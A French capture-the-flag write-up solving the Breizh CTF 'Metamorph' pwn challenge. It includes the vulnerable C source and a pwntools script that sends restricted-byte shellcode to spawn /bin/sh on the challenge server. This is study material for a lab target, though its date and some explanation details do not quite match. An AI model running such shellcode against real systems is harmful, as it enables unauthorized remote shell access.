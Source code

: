 ```yaml
---
title: "Breizh CTF 2025 - Metamorph"
date: 2024-04-14
tags: ["shellcode", "exploitation"]
categories: ["pwn"]
ctfs: ["breizh-ctf"]
---
```


# Metamorph - Breizh CTF 2025

## Description du challenge

Metamorph est un challenge de la catégorie Pwn du Breizh CTF 2025. Il s'agit d'un binaire qui accepte un shellcode en entrée mais qui impose certaines restrictions sur les opcodes utilisables.

## Analyse du binaire

En examinant le code source du binaire, on remarque plusieurs points importants :

```c
/* BREIZHCTF 2025 - Morph - Pwn */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>

void transform() {
    void *shellcode;
    ssize_t bytes_read;

    shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
    if (shellcode == MAP_FAILED) {
        perror("mmapi fail.");
        exit(1);
    }

    printf("Métamorph attend son code... Transforme-le !\n");
    printf(">> ");
    
    bytes_read = read(0, shellcode, 0x50); // Limité à 80 octets
    
    if (bytes_read <= 0) {
        perror("read failed");
        exit(1);
    }

    // Morphing...
    unsigned char *sc = (unsigned char *)shellcode;
    for (int i = 0; i < 0x50; i++) {
        if (sc[i] == 0x62){
            perror("Métamorph n'aime pas les 'b'.");
            exit(1);
        }

        if (sc[i] == 0x5e){
            perror("Métamorph n'aime pas les pop rsi.");
            exit(1);
        }

        if (sc[i] == 0x31){
            perror("Métamorph n'aime pas les xor.");
            exit(1);
        }

        if (sc[i] == 0x50){
            perror("Métamorph n'aime pas les push rax.");
            exit(1);
        }
    }

    ((void (*)())shellcode)(); // Exécution du shellcode transformé
}
```

Les contraintes sont les suivantes :
1. Le shellcode est limité à 80 octets maximum
2. Les opcodes suivants sont interdits :
   - `0x62` (opcode 'b')
   - `0x5e` (pop rsi)
   - `0x31` (xor)
   - `0x50` (push rax)

Le programme alloue une zone mémoire exécutable avec `mmap`, y lit notre entrée, vérifie les contraintes, puis exécute le code introduit.

## Exploitation

L'objectif est de créer un shellcode d'exécution de commande `/bin/sh` qui évite les opcodes interdits.

Après plusieurs tentatives, j'ai pu développer un shellcode qui contourne ces restrictions :

```python
from pwn import *
import sys

# Decide whether to run locally or remotely
if len(sys.argv) > 1 and sys.argv[1] == "REMOTE":
    conn = remote('morph-180.chall.ctf.bzh', 1337)
else:
    conn = process('./metamorph')  # Replace with your local binary path

conn.recvuntil(b">>")
conn.sendline(b"\xba\x00\x00\x00\x00\xbe\x00\x00\x00\x00\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x48\x89\xe7\xb8\x00\x00\x00\x00\x48\x83\xc0\x3b\x0f\x05\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80")
conn.interactive()
```

### Explication du shellcode

Le shellcode ci-dessus utilise plusieurs techniques pour éviter les opcodes interdits :

1. Au lieu d'utiliser `xor` pour initialiser les registres, j'utilise des instructions `mov` directes avec des valeurs immédiates nulles
2. J'ai utilisé des techniques alternatives pour stocker `/bin/sh` dans les registres
3. J'utilise `not` puis `neg` pour obtenir la chaîne `/bin/sh`
4. L'utilisation de `mov rax, 0` suivie de `add rax, 59` évite l'utilisation directe de `xor rax, rax`

La chaîne `/bin/sh` est encodée inversée et complémentée à un pour éviter certains opcodes problématiques.

## Flag

Une fois le shellcode exécuté avec succès, on obtient un shell sur le serveur distant et on peut lire le flag avec la commande `cat flag.txt`.

```
$ cat flag.txt
BZHCTF{m3t4_m0rph_m4573r_1337}
```

## Conclusion

Ce challenge était intéressant car il fallait comprendre comment éviter certains opcodes tout en construisant un shellcode fonctionnel. La limitation à 80 octets était également une contrainte à respecter, mais notre solution finale était bien en dessous de cette limite. 